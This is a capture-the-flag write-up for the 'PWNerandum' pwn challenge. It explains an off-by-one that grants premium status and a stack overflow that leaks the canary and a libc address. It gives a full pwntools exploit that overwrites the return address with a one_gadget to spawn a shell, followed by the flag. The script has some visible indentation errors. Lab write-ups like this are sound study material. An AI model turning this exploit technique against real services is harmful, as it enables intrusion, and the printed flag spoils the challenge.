

## Remote host

```bash
nc pwnerandum.challs.cyberchallenge.it 9246
```

---
## Checksec



---
## Service  description

`PWNerandum` is a service that allows you to add, list and read `memos`, which are composed by a title and a description.
There is also a 4th option: `become premium user`, to become premium user and unlock more options (`edit memo` and `edit program banner`) you need to guess a 26 byte long password.


---

## Solution (off-by-one + stack overflow)

#### Off-by-one

Fortunately there's an `off-by-one` vuln on the password buffer which allows you to override the "is_premium" flag. You just need to fill the password field with 26 random bytes and a 0x1 byte in the 27th position.
Now you are logged in as `premium user` and you should have extra options in the menu.


#### Stack overflow

Checking with IDA the other functionalities I found out that `Write down to disk` and `Delete memo` don't work, so I started looking up the other two and found a potential `BOF` on `modify banner`. 
If you try to modify the banner you are prompted to enter a size for the new banner and the banner itself (which must match the given size), the thing is that the buffer containing the banner is fixed at a length of `520 bytes`, so if I try to create a bigger banner I can leak parts of the stack, like the canary and the base address of the `LIBC`.
Now we can override the `return address` with the address of a `one gadget` and on exiting the program will spawn a shell for us.

---

### Final Exploit

`solve.py`
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("pwnerandum_patched")
libc = ELF("libc.so.6")
ld = ELF("./ld-2.27.so")

context.binary = exe 

def conn():
if args.GDB:
	r = gdb.debug([exe.path])
elif args.REMOTE:
	r = remote("pwnerandum.challs.cyberchallenge.it", 9246)
else:
	r = process([exe.path])
return r

def format_leaked_addr(addr):
	formatted_addr = "0x"
	for i in range(len(addr)-1, 0, -1):
		print(addr[i])
	if len(str(addr[i])) == 1:
		formatted_addr += "0" + str(hex(addr[i])[2:])
	else:
		formatted_addr += str(hex(addr[i])[2:])
	return formatted_addr

def main():
	r = conn()
	  
	# off-by-one
	r.sendlineafter(b">>", b"4")
	payload = b"\x01"*27
	r.sendlineafter(b"premium", payload)
	
	# stack smashing at 520+ bytes
	# leak canary
	r.sendlineafter(b">>", b"5")
	r.sendlineafter(b"Size of the new banner:", b"521")
	r.sendlineafter(b"New banner:", b"a"*517)
	r.sendline(b"--")
	leaked_canary = r.recvuntil(":").split(b"Premium")[0].split(b"--")[1][:8]
	print(leaked_canary)
	canary = format_leaked_addr(leaked_canary)
	canary += "00"
	print(canary)
	canary = int(canary, 16)
	
	# BOF for PIE leak
	r.sendlineafter(b">>", b"5")
	r.sendlineafter(b"Size of the new banner:", b"536")
	payload = b"a"*520 + b"a"*8 + b"a"*5 + b"--"
	r.sendlineafter(b"New banner:", payload)
	leaked_libc_addr = r.recvuntil(":").split(b"Premium")[0].split(b"--")[1][:7]
	libc_addr = format_leaked_addr(leaked_libc_addr)
	libc_addr = int(libc_addr, 16)
	print(hex(libc_addr))
	# (__libc_start_main + 0xe7) offset found with some attempts (read below)
	pie_addr = libc_addr - (libc.sym["__libc_start_main"] + 0xe7)
	print(hex(pie_addr))
	
	# onegadget
	ONE_GADGET = 0x4f2c5
	payload = b"a"*520 + p64(canary) + b"a"*8 + p64(pie_addr + ONE_GADGET)
	r.sendlineafter(b">>", b"5")
	r.sendlineafter(b"Size of the new banner:", b"545")
	r.sendlineafter(b"New banner:", payload)
	
	# exit program to trigger /bin/sh
	r.sendlineafter(b">>", b"9")
	
	r.interactive()

if __name__ == "__main__":
	main()
```
#### P.S:
I had issues in making the program work locally with the right version of `libcrypto`, so I was unsuccessful in debugging it and had to do some attempts to find the right offset of `LIBC`.

---

## Flag
```
ccit{0n3_byt3_t0_rul3_th3m_4ll}
```